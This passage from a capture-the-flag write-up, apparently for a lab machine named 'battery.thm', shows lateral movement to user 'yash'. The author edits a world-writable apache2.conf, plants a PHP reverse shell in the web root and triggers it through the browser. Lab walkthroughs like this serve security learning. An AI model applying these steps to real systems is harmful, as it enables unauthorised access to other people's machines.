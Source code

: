 ### Method 2: user1 → user2 → root

List the `/home/` directory and combine with the information from the `/etc/passwd` file, I observe that there is another available user on this system which is **yash**:

```
cyber@ubuntu:~$ ls -l /home/
total 8
drwx------ 3 cyber cyber 4096 Oct  6 19:41 cyber
drwx------ 3 yash  yash  4096 Nov 17  2020 yash
```

I upload the **pspy64** from my machine to `/home/cyber/` location and execute it. Then I explore the that every time the **run.py** execute, the **apache2** service will be restarted:

```
2023/10/06 22:15:38		CMD: UID=0  PID=1628  | sh -c service apache2 restart > /dev/null 2>&1
```

I check out the `/apache2/` directory and find out the directory and the `apache2.conf` is able to modify:

```
cyber@ubuntu:~$ ls -l /etc/ | grep "apache2"
drwxr-xr-x 8 root root    4096 Nov  9  2020 apache2
cyber@ubuntu:/etc/apache2$ ls -l apache2.conf
-rwxrwxrwx 1 root root 7117 Oct  6 19:54 apache2.conf
```

So I change the value `User` and `Group` from `www-data` to `yash`:

```
# These need to be set in /etc/apache2/envvars
User www-data
Group www-data
```

```
cyber@ubuntu:/etc/apache2$ cat apache2.conf | grep "yash"
User yash
Group yash
```

This step allows me to become the user **yash** instead of **www-data** when I implement a reverse shell through the **HTTP** service. Next, the `/var/www/html/` directory is also set with **SUID** permission → I can create the php reverse shell in here and execute it:

```
cyber@ubuntu:~$ ls -l /var/www
total 4
drwxrwxrwx 3 root root 4096 Oct  6 19:55 html
```

```
cyber@ubuntu:~$ ls -l /var/www/html/shell.php
-rw-rw-r-- 1 cyber cyber 5493 Oct  6 19:55 /var/www/html/shell.php
```

Execute the shell through the web-browser with URL `http://battery.thm/shell.php` and establish a listener on local machine, I get the shell as user **yash**:
